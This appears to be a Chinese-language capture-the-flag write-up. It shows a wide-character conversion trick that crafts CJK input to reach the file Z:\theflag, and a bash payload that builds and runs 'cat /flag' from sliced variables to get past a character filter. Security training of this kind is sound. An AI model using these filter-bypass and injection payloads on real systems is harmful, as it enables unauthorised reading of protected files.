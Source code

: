 首先将输入的字符数组（char *）转变成宽字符数组（wchar_t *），导入宽字符串后又将其转换成了字符数组（char *）。

这整个过程会将输入的每一个字符（1个byte）先扩展成一个宽字符（2个byte），如果输入的是ascii码，扩展之后会在新增的1个高位byte上补 0x00. 由于大部分机型是小端存储，所以 1byte 低地址存储的应该是低位，即ascii码，高位的 1byte 存储的是 0x00。所以从宽字符串转到普通字符串时，ascii码不变，但每个ascii码后面多了个 0x00，而这又是字符串终止符 ‘\0’ 的ascii码，所以导致如果输入的字符串有ascii码，那么打印输出的字符串只能显示第一个ascii码，后面的都因终止符而不能显示。但如果输入不是ascii码，而是其他的unicode，则可以避免这种情况。中文是一种unicode，它在普通字符数组里存储是占两个字节的，而且是一体的，不会在扩展为宽字符数组时被分成两个1byte并补0x00。利用这个特性，我们就可以将目标输出 Z:\theflag 以两个byte为一组的形式转变为其他unicode。

在网上找一个字符串转ascii的转换器，得到 Z:\theflag 的转换结果为 0x5a 0x3a 0x5c 0x74 0x68 0x65 0x66 0x6c 0x61 0x67，再由小端存储的规则，将转换结果变成（将每两位调换位置，为了使每个2 byte都遵循小端存储）0x3a 0x5a 0x74 0x5c 0x65 0x68 0x6c 0x66 0x67 0x61, 将每两位作为一组，变为\u3a5a \u745c \u6568 \u6c66 \u6761，在unicode转字符串转换器上转换得到 **㩚瑜敨汦条** 。

还要注意一点，因为filename后面被加上了一串ascii字符串，所以我们要截断后面的字符串，可以在得到的unicode字符串后面加一个\uxx00(xx是两个十六进制数，而且要求选的xx要使得\uxx00是可见字符)。这么做的原因是因为~~出题人太坏~~，在filename后面还加了一串ascii字符串，如果不把后面截断，就会在filename里多出现一个 ‘f’ 字符。所以使用一个\uxx00可以在从字符数组转换成宽字符数组的时候由于小端存储的规则使0x00提前，导致后面被截断。

我选择的加的后缀是\u9a00，所以最终得到字符串 **㩚瑜敨汦条騀** ，输入终端即可拿到flag。

<img src="img\339b657aad12737f242647c6dfe2ebf4.png">



## PowerfulShell

不得不拿出我的这个表情了

<img src="img\3B1D1BFFF03F51D26D4DFCC47D3895A5.png">

这是我想了三天还没想出来而无语失望落魄自嘲的情况下做的表情🤣，不过写出来之后还是很高兴的。

这道题其实很简单，只需要对能获取到的字符串进行字符截取和拼接就可以了。

首先知道几个有用的客观事实：

```shell
_1,_2,_3,__ 等下划线开头加上合法字符都可以当作变量
~ 是主目录字符串。在题目中为 /players
$_ 是表示的是打印上一个输入参数行, 当这个命令在开头时, 打印输出文档的绝对路径名。在题目中为input
```

~是关键，因为/players字符串中包含了 l，s 这两个字符，可以用于截取拼接形成 ls 指令。同时能截取到 / , 这样 \`ls /\` 就可以获取根目录下的所有文件名并赋值给变量了。

话不多说，下代码：

```shell
_1=~              # _1:'/players'
_2=9$_1           # _2:'9/players'
_3=${_2:1:1}      # _3:'/'
_4=${_1:7:1}      # _4:'s'
_5=${_1:2:1}      # _5:'l'
_6=`$_5$_4 $_3`   # _6: ls / 的输出(bin\nboot\ndev\netc\nflag\nhome\nlib\nlib32\nlib64\nlibx32\nmedia\nmnt\nopt\nplayers\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar)
_7=${_6:15:1}     # _7:'c'
_8=${_1:3:1}      # _8:'a'
_9=${_:4:1}       # _9:'t'
_11=${_6:17:4}    # _11:'flag'
$_7$_8$_9 $_3$_11 # cat /flag
```
